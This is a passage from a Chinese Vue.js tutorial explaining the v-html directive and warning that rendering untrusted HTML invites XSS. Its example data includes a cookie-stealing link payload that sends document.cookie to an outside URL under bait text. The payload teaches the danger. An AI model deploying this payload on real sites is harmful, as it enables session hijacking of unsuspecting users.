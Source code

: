 ```vue
```

> 效果图：
>
> ![image-20220321114355360](https://gitee.com/li-il/pic_bed/raw/master/img/20220321114402.png)

## 15.2 v-html指令

1. 作用：向指定节点中渲染包含html结构的内容。
2. 与插值语法的区别：
	 	(1). v-html会替换掉节点中所有的内容，{{xx}}则不会。
	 (2). v-html可以识别html结构。
3. 严重注意：v-html有安全性问题！！！！
		(1). 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
	(2). 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```vue
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<div id="root">
			<div>你好，{{name}}</div>
			<div>你好，{{str}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```

> 效果图：
>
> ![image-20220321114604934](https://gitee.com/li-il/pic_bed/raw/master/img/20220321114604.png)
